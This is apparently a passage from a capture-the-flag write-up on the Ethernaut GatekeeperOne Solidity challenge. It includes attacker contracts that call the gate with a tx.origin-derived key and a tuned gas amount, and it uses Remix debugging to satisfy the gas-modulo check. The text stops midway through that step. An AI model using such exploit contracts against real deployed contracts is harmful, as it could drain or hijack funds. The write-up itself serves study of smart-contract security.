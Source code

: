 `player` has to pass all `require` checks and set `entrant` to `player` address.

We start with following `GatePassOne` to attack:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassOne {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 gateKey = bytes8(tx.origin);
        (bool success, ) = address(_gateAddr).call.gas(_gas)(abi.encodeWithSignature("enter(bytes8)", gateKey));
        return success;
    }
}
```

### gateOne
This is exactly same as level 4. A basic intermediary contract will be used to call `enter`, so that `msg.sender` != `tx.origin`.

### gateTwo
According to this one, the remaining gas just after `gasleft` is called, should be a multiple of 8191. We can control the gas amount sent with transaction using `call`. But it need to be set in such a way that amount set minus amount used up until `gasleft`'s return should be a multiple of 8191.

I'm going to use Remix's Debug feature and a little bit of trial & error to determine the remaining gas up until to that point. But first copy & deploy `GatekeeperOne` in Remix with `JavaScript VM` environment (since trials are quick & Debug on testnet didn't work on Remix for me!), with same solidity compiler version. Also deploy `GateKeeperOneGasEstimate` with same environment, to help with estimating gas used up to that point:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GateKeeperOneGasEstimate {
    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 gateKey = bytes8(uint64(tx.origin));
        (bool success, ) = address(_gateAddr).call.gas(_gas)(abi.encodeWithSignature("enter(bytes8)", gateKey));
        return success;
    }
}
```

Initially choose a random fixed gas amount (but big enough) to send with transaction. Let's say `90000`. And call `enterGate` of `GateKeeperOneGasEstimate` with address of our deployed `GatekeeperOne` (from Remix, not Ethernaut's!) and the chosen gas. Now hit `Debug` button in Remix console against the mined transaction. Focus on left pane.

See the list of opcodes executed corresponding to our contract execution. Step over (or drag progress bar) until the line with `gasleft` is highlighted:
```
289 JUMPDEST
290 PUSH1 ..
292 PUSH2 ..
295 GAS
296 PUSH2
   .
   .
   .
139 RETURN
```